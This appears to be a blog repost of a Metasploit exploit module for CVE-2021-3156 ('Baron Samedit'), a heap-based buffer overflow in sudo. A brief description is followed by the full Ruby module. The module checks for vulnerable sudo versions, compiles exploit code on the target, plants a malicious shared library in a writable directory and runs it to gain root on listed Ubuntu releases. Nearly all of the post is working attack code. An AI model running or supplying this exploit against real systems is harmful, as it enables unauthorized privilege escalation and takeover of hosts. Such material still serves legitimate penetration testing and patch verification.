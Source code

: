 ```yaml
---
layout: post
title: Sudo 1.8.31p2 / 1.9.5p1 Buffer Overflow
date: 2021-02-17 04:17 +0300
categories: [Exploits, Overflow]
tags: [exploits]
---
```










![](../../../assets/img/Exploits/sudo.png)

There is a vulnerability in the sudo command line utility that allows a local attacker to gain elevated privileges through a heap based buffer overflow. The vulnerability was introduced in July 2011 and affects version 1.8.2 through 1.8.31p2, as well as 1.9.0 through 1.9.5p1 in their default configurations. By exploiting the overflow, the attacker can overwrite a service\_user struct in memory and reference a library under their control, which will then be loaded with the elevated privileges held by sudo.

  

```MD5 | 5a520123546e73d450b7fef8df23c9de```

```perl
    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##
    
    class MetasploitModule < Msf::Exploit::Local
      Rank = ExcellentRanking
    
      prepend Msf::Exploit::Remote::AutoCheck
      include Msf::Post::File
      include Msf::Post::Unix
      include Msf::Post::Linux::Compile
      include Msf::Post::Linux::System
      include Msf::Exploit::EXE
      include Msf::Exploit::FileDropper
    
      def initialize(info = {})
        super(
          update_info(
            info,
            'Name'           => 'Sudo Heap-Based Buffer Overflow',
            'Description'    => %q(
              A heap based buffer overflow exists in the sudo command line utility that can be exploited by a local attacker
              to gain elevated privileges. The vulnerability was introduced in July of 2011 and affects version 1.8.2
              through 1.8.31p2 as well as 1.9.0 through 1.9.5p1 in their default configurations. The technique used by this
              implementation leverages the overflow to overwrite a service_user struct in memory to reference an attacker
              controlled library which results in it being loaded with the elevated privileges held by sudo.
            ),
            'License'        => MSF_LICENSE,
            'Author'         =>
              [
                'Qualys',                            # vulnerability discovery and analysis
                'Spencer McIntyre',                  # metasploit module
                'bwatters-r7',                       # metasploit module
                'blasty <blasty@fail0verflow.com>',  # original PoC
                'Alexander Krog'                     # detailed vulnerability analysis and exploit technique
              ],
            'SessionTypes'   => ['shell', 'meterpreter'],
            'Platform'       => ['unix', 'linux'],
            'References'     => [
              ['URL', 'https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit'],
              ['URL', 'https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt'],
              ['URL', 'https://www.kalmarunionen.dk/writeups/sudo/'],
              ['URL', 'https://github.com/blasty/CVE-2021-3156/blob/main/hax.c'],
              ['CVE', '2021-3156'],
            ],
            'Targets'        =>
              [
                [ 'Manual', { } ],
                [ 'Ubuntu 20.04 x64 (sudo v1.8.31, libc v2.31)', { lengths: [ 56, 54, 63, 200 ] } ],
                [ 'Ubuntu 18.04 x64 (sudo v1.8.21, libc v2.27)', { lengths: [ 56, 54, 63, 212 ] } ],
              ],
            'DefaultTarget'  => 1,
            'Arch'           => ARCH_X64,
            'DefaultOptions' => { 'PrependSetgid' => true, 'PrependSetuid' => true, 'WfsDelay' => 10 },
            'DisclosureDate' => '2021-01-26',
            'Notes' => {
              'AKA'         => [ 'Baron Samedit' ],
              'SideEffects' => [ARTIFACTS_ON_DISK, IOC_IN_LOGS],
              'Reliability' => [REPEATABLE_SESSION]
            }
          )
        )
    
        register_options([
          OptString.new('WritableDir', [ true, 'A directory where you can write files.', '/tmp' ])
        ])
    
        register_advanced_options([
          OptString.new('Lengths', [ false, 'The lengths to set as used by the manual target. (format: #,#,#,#)' ], regex: /(\d+(,[ ]*| )){3}\d+/)
        ])
    
        deregister_options('COMPILE')
      end
    
      def get_versions
        versions = {}
        output = cmd_exec("sudo --version")
        if output
          version = output.split("\n").first.split(' ').last
          versions[:sudo] = version if version =~ /^\d/
        end
    
        versions
      end
    
      def check
        sudo_version = get_versions[:sudo]
        return CheckCode::Unknown('Could not identify the version of sudo.') if sudo_version.nil?
    
        # fixup the p number used by sudo to be compatible with Gem::Version
        sudo_version.gsub!(/p/, '.')
    
        vuln_builds = [
          [Gem::Version.new('1.8.2'), Gem::Version.new('1.8.31.2')],
          [Gem::Version.new('1.9.0'), Gem::Version.new('1.9.5.1')],
        ]
    
        if sudo_version == '1.8.31'
          # Ubuntu patched it as version 1.8.31-1ubuntu1.2 which is reported as 1.8.31
          return CheckCode::Detected("sudo #{sudo_version} maybe a vulnerable build.")
        end
    
        if vuln_builds.any? { |build_range| Gem::Version.new(sudo_version).between?(*build_range) }
          return CheckCode::Appears("sudo #{sudo_version} is a vulnerable build.")
        end
    
        CheckCode::Safe("sudo #{sudo_version} is not a vulnerable build.")
      end
    
      def upload(path, data)
        print_status "Writing '#{path}' (#{data.size} bytes) ..."
        write_file path, data
      end
    
      def exploit
        if target.name == 'Manual'
          fail_with(Failure::BadConfig, 'The "Lengths" advanced option must be specified for the manual target') if datastore['Lengths'].blank?
          arguments = datastore['Lengths'].gsub(/,/, ' ').gsub(/  +/, ' ')
        else
          arguments = target[:lengths].join(' ')
        end
    
        fail_with(Failure::NotFound, 'The gcc binary was not found') unless has_gcc?
    
        path = datastore['WritableDir']
        cmd_exec("mkdir -p #{path}/libnss_X")
    
        file_name = rand_text_alphanumeric(5..10)
        upload_and_compile("#{path}/#{file_name}", exploit_data('CVE-2021-3156', 'exploit.c'), '-lutil')
        upload("#{path}/libnss_X/P0P_SH3LLZ_ .so.2", generate_payload_dll)
        cmd_exec("#{path}/#{file_name} #{arguments}")
      end
    end
```
{: .nolineno }

<br>

  

>*Source* :   [https://packetstormsecurity.com](https://packetstormsecurity.com)